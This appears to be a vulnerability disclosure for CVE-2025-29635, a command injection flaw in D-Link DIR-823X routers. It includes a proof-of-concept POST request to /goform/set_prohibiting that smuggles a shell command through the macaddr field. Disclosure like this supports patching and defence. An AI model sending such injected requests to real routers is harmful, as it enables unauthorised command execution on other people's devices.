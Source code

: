# CVE-ID

**CVE-2025-29635**
# Information

**Vendor of the products:** D-Link

**Vendor's website:** http://www.dlink.com.cn/

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ,  Zhao Jiangting([sta8r9@163.com](mailto:sta8r9@163.com))

**Affected products:** DIR-823X AX3000 Series Routers

**Affected firmware version:** 240126, 240802

**Firmware download address:** http://www.dlink.com.cn/home/product?id=3118

# Overview

A command injection vulnerability in D-Link DIR-823X Series Routers with firmware versions 240126/240802 allows an authorized attacker to execute arbitrary commands on remote devices by sending a POST request to `/goform/set_prohibiting` via the corresponding function, triggering remote command execution.

# Vulnerability details

By reverse engineering the `sub_42232C` function in this binary file, we can see that the value of the `macaddr` function is copied into the `command` variable via the `snprintf` function, after which the `system` function is executed. Therefore, by maliciously crafting the value of `macaddr`, command execution can be triggered.

![image-20250306225207155](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327700.png)

This function can be triggered by submitting a POST request to `/goform/set_prohibiting`.

# Poc

```python
POST /goform/set_prohibiting HTTP/1.1
Host: 192.168.122.130
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 75
Origin: http://192.168.122.130
Connection: close
Referer: http://192.168.122.130/login.html
Cookie: sessionid=00000000000000000000000000000000; token=00000000000000000000000000000000

macaddr=||touch%20/set_prohibiting||&token=00000000000000000000000000000000
```

# Attack Demonstration

![image-20250306094707761](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327258.png)
